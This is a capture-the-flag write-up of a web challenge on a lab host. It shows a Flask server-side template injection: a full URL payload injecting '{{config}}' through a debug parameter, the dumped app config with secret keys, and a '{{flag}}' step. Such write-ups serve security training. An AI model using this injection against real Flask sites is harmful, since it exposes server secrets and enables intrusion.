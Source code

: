 ## Challenge 27: Keep it secret [244 pts]
> Leaving these dev sites around is just reckless!
> **HINT:** Your answer to "Double Agent" may help you here

### Write-up

- after navigating into the `dev_page?`, our team started digging around;
- using the hint from the `Double Agent` challenge, we were able to force the website into development mode with an appended string `formatting=false`;
- from here we found that there was a new un-formatted table and noticed that the “flags” stock was set to `1` whereas it was set to `0` on the `BOBDev/1.4` browser.
- we also notice a `debug =` string, so we start playing around and doing some research and attempt to append system print commands into the URL payload using Server-Side Template Injection with Flask. This is because Flask allows for the creation of templates using strings of HTML in the Python source code or laid out in static files in a templates directory local to `webpentest.cysca`
- input was sanitised and so we started testing with single strings
- forcing `http://webpentest.cysca:8000/dev_page?formatting=false&flags=1&debug={{config}}` printed out the config
- and so since there is `1` flag in stock, we would need to print `{{flag}}` in the appended parameter
- profit

config gives you:

`debug = <Config {'JSONIFY_PRETTYPRINT_REGULAR': False, 'SERVER_NAME': None, 'JSON_AS_ASCII': True, 'SESSION_REFRESH_EACH_REQUEST': True, 'SESSION_COOKIE_PATH': None, 'ENV': 'production', 'SECRET_KEY': 'secret', 'MAX_CONTENT_LENGTH': None, 'SESSION_COOKIE_DOMAIN': False, 'PREFERRED_URL_SCHEME': 'http', 'USE_X_SENDFILE': False, 'TRAP_HTTP_EXCEPTIONS': False, 'SESSION_COOKIE_NAME': 'session', 'BASE_DIR': '/opt/cysca-web', 'DEBUG': True, 'PROPAGATE_EXCEPTIONS': None, 'SQLALCHEMY_DATABASE_URI': 'sqlite:////opt/cysca-web/app.db', 'SESSION_COOKIE_SECURE': False, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_HTTPONLY': True, 'CSRF_SESSION_KEY': 'secret', 'TRAP_BAD_REQUEST_ERRORS': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'APPLICATION_ROOT': '/', 'JSONIFY_MIMETYPE': 'application/json', 'THREADS_PER_PAGE': 2, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'TESTING': False, 'SESSION_COOKIE_SAMESITE': None, 'DATABASE_CONNECT_OPTIONS': {}, 'JSON_SORT_KEYS': True, 'CSRF_ENABLED': True, 'TEMPLATES_AUTO_RELOAD': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'MAX_COOKIE_SIZE': 4093}>`
